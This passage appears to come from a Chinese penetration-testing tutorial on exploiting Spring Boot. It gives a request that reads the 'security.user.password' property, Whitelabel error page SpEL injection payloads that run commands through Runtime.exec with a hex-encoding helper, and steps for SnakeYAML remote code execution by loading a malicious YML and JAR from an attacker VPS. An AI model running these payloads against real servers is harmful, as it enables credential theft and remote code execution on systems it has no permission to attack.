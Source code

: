 ```
Content-Type: application/json

{"mbean":"org.springframework.boot:name=SpringApplication,type=Admin","operation":"getProperty","type":"EXEC","arguments":["security.user.password"]}
```  
### 远程代码执行  
  
主要问题是在于springboot存在一些组件漏洞造成的的，总结如下一些方法  
# Spring Boot whitelabel error page 远程命令执行漏  
  
漏洞原理：主要是因为使用了springboot默认错误页在处理参数值使用递归流程，流程进入到PropertyPlaceholderHelper 类中，${}包围的内容都会被 org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration 类的 resolvePlaceholder 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞漏洞文件：ErrorMvcAutoConfiguration.java  
  
漏洞复现，测试网站是否存在Whitelabel Error Page，通过fuzz一些参数值，如id、sid存在500报错，则可以测试去执行Spel表达式注入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/h8P1KUHOKuZ0ibrvNzNPR8szNSPIQL1HlnNWG5iaUQUWEU8icT4xicQjuJJyQKXzvN81TyMv4uia1rInM40Gk6m4THw/640?wx_fmt=png&from=appmsg "null")  
  
漏洞poc生成16进制的脚本  
```
input_string = "open -a Calculator"
hex_list =[]

for ch in input_string:
# 将字符转换为十六进制表示，并添加到列表中
    hex_list.append(f"0x{ord(ch):02x}")

hex_string =', '.join(hex_list)
print(hex_string)



//测试漏洞是否存在
${6*6}//看是否有返回36

//执行Calc命令
${T(java.lang.Runtime).getRuntime().exec(newString(newbyte[]{0x63,0x61,0x6c,0x63}))}
```  
# spring cloud SnakeYAML 远程命令执行  
  
利用条件：通过去查看是否存在/env 或 /actuator/env泄露，请求是否存在spring-boot-starter- actuator，目标主机可出网，且版本小于1.3.0.RELEASE漏洞原理：Spring Cloud 配置通过 spring.cloud.bootstrap.location 指向恶意 YML 文件 URL，触发 refresh 请求该文件，利用 SnakeYAML 反序列化漏洞拉取恶意 JAR 并实例化其中的 javax.script.ScriptEngineFactory 实现类，导致远程代码执行（RCE）。  
  
漏洞复现过程：  
  
1、 在vps主机开放一个端口上传一个exp.yml文件进行远程加载，写入恶意执行代码执行  
  
参考：https://github.com/artsploit/yaml-payload  
```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```  
  